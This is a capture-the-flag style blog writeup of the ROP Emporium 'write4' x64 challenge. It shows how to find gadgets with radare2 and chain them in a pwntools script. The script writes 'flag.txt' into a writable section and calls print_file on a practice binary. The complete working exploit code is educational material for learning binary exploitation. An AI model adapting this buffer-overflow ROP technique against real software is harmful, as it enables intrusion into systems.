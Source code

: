 ```yaml
---
layout: post
title:  "ROP Emporium write4 Writeup (x64)"
date:   2024-06-04 13:15:45 -0400
categories: rop-emporium challenge-4
tags: rop-emporium write4 x64 writeup buffer-overflow rop reverse-engineering 64-bit
---
```

## Introduction
[ROP Emporium](https://ropemporium.com/index.html){:target="_blank"}{:rel="noopener noreferrer"}
provides a series of challenges to learn and practice
Return Oriented Programming (ROP). This is the
[fourth challenge](https://ropemporium.com/challenge/write4.html){:target="_blank"}{:rel="noopener noreferrer"}
of eight.

> This is what a hint will look like!
{: .prompt-tip }

### Goal
According to the
[challenge page](https://ropemporium.com/challenge/write4.html){:target="_blank"}{:rel="noopener noreferrer"}
our goal is to call `print_file()` with the name of the
file to read as the first argument. The string `flag.txt`
doesn't exist in the binary, so we will need to write it
there ourselves!

## Exploit Crafting
The offset for `x64` challenges will be `40 bytes`. If
you want to know how to find this value see the
[first writeup]({% post_url 2024-05-31-rop-emporium-ret2win-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}
for this series.

### Write Gadget
> Check out `usefulFunction`'s assembly
{: .prompt-tip }

Using `radare2` we can analyze a binary by
running `aaa`. We will need to write `flag.txt` to
memory so let's check the `usefulGadgets` section
in `usefulFunction`
We can view the assembly with the following commands

```
s sym.usefulFunction
V
p
```

![useful gadgets](/images/write4/x64-useful-gadgets.png)

The `mov` instruction will set the value from
`r15` (8 byte qword) into the dereferenced address 
set in `r14`. This is what we'll use to write to memory!
The gadget address is `0x00400628`

### Mov Arguments
> Find a gadget to control `r14` and `r15` along with
> a writable program segment
{: .prompt-tip }
Now we need to find a gadget which can control `r14` and
`r15` to control what to write and where to write it. We
can use the `/R` command to search for gadgets
```
/R pop r14
```

![mov args gadget](/images/write4/x64-mov-args-gadget.png)

There are a few which come up but might as well use
this one. Remember we can control where we jump so we
can skip the `pop rbp` instruction entirely! The address
we'll use to set `r14` and `r15` is `0x0x00400690`

Now that we can control where to write and what to write,
where and what should we write? We want to open `flag.txt`
so we'll set that into `r15`. But we need to find a
suitable location to write to. We can view writable
sections with the command `iS`

![writable sections](/images/write4/x64-writable-sections.png)

We need to find a section with the `w` permission and a
size of at least 8 bytes (0x08). Let's use the `.data`
section which has the address `0x00601028`

The python code to write data to an address looks
like this
```python
#!/bin/python3
from pwn import *

# useful addresses
write_gadget = 0x00400628   # mov qword [r14], r15
pop_r14_r15 = 0x00400690
data_addr = 0x00601028

# write byte string s to address addr
# return payload in bytes
def write_str(addr, s):
    payload = b''
    # write every 8 bytes of a string
    for i in range(0, len(s), 8):
        # address to write to
        r14 = p64(addr + i)

        # prevent slice out of bounds
        j = i+8
        if j >= len(s):
            j = len(s)

        # 8 bytes to write
        r15 = p64(int.from_bytes(s[i:j], 'little'))

        # set mov args
        payload += p64(pop_r14_r15)
        payload += r14
        payload += r15

        # write bytes
        payload += p64(write_gadget)
    return payload
```

### print_file()
> Find the `print_file` address and a gadget which
> sets the `rdi` register
{: .prompt-tip }

First let's find the address of `print_file()` using
the command `afl`

![print-file-addr](/images/write4/x64-print-file-addr.png)

`print_file` is part of a library so we can just use the
address of corresponding `plt` entry, `0x00400510`

Now we need to set the first argument to this function.
According to the
[x64 calling convention](https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf){:target="_blank"}{:rel="noopener noreferrer"},
the first argument of a function is passed through the `rdi`
register. Let's find a gadget to control it

```
/R pop rdi
```

![rdi-addr](/images/write4/x64-rdi-addr.png)

Perfect! Our gadget address is `0x00400693`

## Exploit
We finally have everything to build the final exploit
```python
#!/bin/python3
from pwn import *

# useful addresses
write_gadget = 0x00400628   # mov qword [r14], r15
pop_r14_r15 = 0x00400690
data_addr = 0x00601028
print_file_addr = 0x00400510
pop_rdi = 0x00400693

# write byte string s to address addr
# return payload in bytes
def write_str(addr, s):
    payload = b''
    # write every 8 bytes of a string
    for i in range(0, len(s), 8):
        # address to write to
        r14 = p64(addr + i)

        # prevent slice out of bounds
        j = i+8
        if j >= len(s):
            j = len(s)

        # 8 bytes to write
        r15 = p64(int.from_bytes(s[i:j], 'little'))

        # set mov args
        payload += p64(pop_r14_r15)
        payload += r14
        payload += r15

        # write bytes
        payload += p64(write_gadget)
    return payload

# create payload
payload = b'A' * 40

# write flag.txt to data section
payload += write_str(data_addr, b'flag.txt')

# call print_file(flag_txt_addr)
payload += p64(pop_rdi)
payload += p64(data_addr)
payload += p64(print_file_addr)

# send payload + receive flag
io = process('./write4')
io.recvline()
io.send(payload)
io.recvuntil(b'Thank you!\n')
flag = io.recvline()
log.success(flag.decode('utf-8'))
```
![flag](/images/write4/x64-flag.png)

## Conclusion
In this challenge we learned how to write arbitrary
data to memory. By this point we should be relatively
comfortable finding and chaining gadgets together. Next
we'll learn how to deal with forbidden characters in
our payload.

[Previous Challenge (callme)]({% post_url 2024-06-02-rop-emporium-callme-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}

Next Challenge (badchars)

[write4 x86]({% post_url 2024-06-04-rop-emporium-write4-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}
